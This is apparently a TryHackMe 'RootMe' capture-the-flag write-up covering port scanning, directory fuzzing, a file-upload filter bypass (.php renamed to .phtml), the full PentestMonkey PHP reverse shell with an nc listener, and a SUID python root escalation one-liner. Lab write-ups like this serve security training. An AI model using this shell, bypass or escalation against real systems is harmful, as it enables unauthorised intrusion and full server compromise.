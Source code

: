 # RootMe

Question: 
`Scan the machine, how many ports are open?`

```sh
nmap -sV $ip                         

Nmap scan report for $ip
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Answer: 
`2` Ports are open.

<br/>

Question:
`What version of Apache is running?`

Answer:
`2.4.29` is the correct Version.

<br/>

Question:
`What service is running on port 22?`

Answer:
`SSH` is the service which is also the default Port for SSH.

<br/>

Question:
`What is the hidden directory?`

```sh
ffuf -u http://$ip/FUZZ -w ../../webhacking/wordlists/directory_scanner/common.txt 
          ___     ___              ___
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://$ip/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2350ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .htaccess

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .hta

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: css

[Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 79ms]
    * FUZZ: index.php

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 74ms]
    * FUZZ: js

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: panel

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: server-status

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 80ms]
    * FUZZ: uploads

:: Progress: [4613/4613] :: Job [1/1] :: 542 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Answer:
`/panel/` seems to be the hidden directory.

<br/>

Question:
What is the content of `user.txt`?

To get this we need to get a reverse shell to the machine. For the reverse shell I used a simple PHP script but it seems that normal a `.php` file is blocked by the system. 
To bypass this we rename the `.php` file to `.phtml` which bypasses the security and let's us upload the reverse shell. 

Reverse Shell by PentestMonkey:
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.0.1';  // Your IP
$port = 9999;       // Your PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

NetCat Listener for rev shell:
```sh
nc -lnvp 9999
``` 

Answer:
`THM{REDACTED}` seems to be the content for `user.txt`.

<br/>

Question:
Find a file with weird SUID permission:

For this we use a simple `find` command
```sh
find / -user root -perm /4000
```

Answer:
`/usr/bin/python` seems to be fun to play with.

<br/>

The next Step is to escalate priviledges which is not so hard because we found an exploit for this on https://gtfobins.github.io/gtfobins/python/.
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")’
```

Question:
What is the content of `root.txt`?

Answer:
`THM{REDACTED}` is the content of `root.txt`.

